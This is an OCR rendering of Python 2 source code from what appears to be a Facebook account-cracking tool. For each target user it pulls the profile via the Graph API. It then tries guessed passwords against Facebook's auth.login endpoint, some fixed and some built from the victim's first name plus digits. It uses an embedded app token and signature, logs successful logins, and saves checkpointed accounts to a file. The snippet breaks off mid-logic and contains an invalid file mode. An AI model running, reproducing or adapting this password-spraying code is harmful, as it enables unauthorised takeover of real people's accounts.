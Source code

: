 			
	def main(arg):
		global cekpoint,sucessful
		user = arg
		try:
			os.mkdir('cookie')
		except OSError:
			pass #Dev:love_hacker
		try:
			k = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			y = json.loads(k.text)
			pass1 = ('786786')
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			s = json.load(data)
			if 'access_token' in s:
				print '\x1b[1;92mLive\x1b[1;97m-\x1b[1;92m▣\x1b[1;97m-' + user + '-\x1b[1;92m▣\x1b[1;97m-' + pass1
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in s["error_msg"]:
					print '\x1b[1;91mError\x1b[1;97m-\x1b[1;91m▣\x1b[1;97m-' + user + '-\x1b[1;91m▣\x1b[1;97m-' + pass1
					cek = open("out/checkpoint.txt", "k")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = '528922'
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					s = json.load(data)
					if 'access_token' in s:
						print '\x1b[1;92mLive\x1b[1;97m-\x1b[1;92m▣\x1b[1;97m-' + user + '-\x1b[1;92m▣\x1b[1;97m-' + pass2
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in s["error_msg"]:
							print '\x1b[1;91mError\x1b[1;97m-\x1b[1;91m▣\x1b[1;97m-' + user + '-\x1b[1;91m▣\x1b[1;97m-' + pass2
							cek = open("out/checkpoint.txt", "k")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							pass3 = y['first_name'] + '123'
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							s = json.load(data)
							if 'access_token' in s:
								print '\x1b[1;92mLive\x1b[1;97m-\x1b[1;92m▣\x1b[1;97m-' + user + '-\x1b[1;92m▣\x1b[1;97m-' + pass3
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in s["error_msg"]:
									print '\x1b[1;91mError\x1b[1;97m-\x1b[1;91m▣\x1b[1;97m-' + user + '-\x1b[1;91m▣\x1b[1;97m-' + pass3
									cek = open("out/checkpoint.txt", "k")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass3)
								else:
									pass4 = y['first_name'] + '786'
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									s = json.load(data)
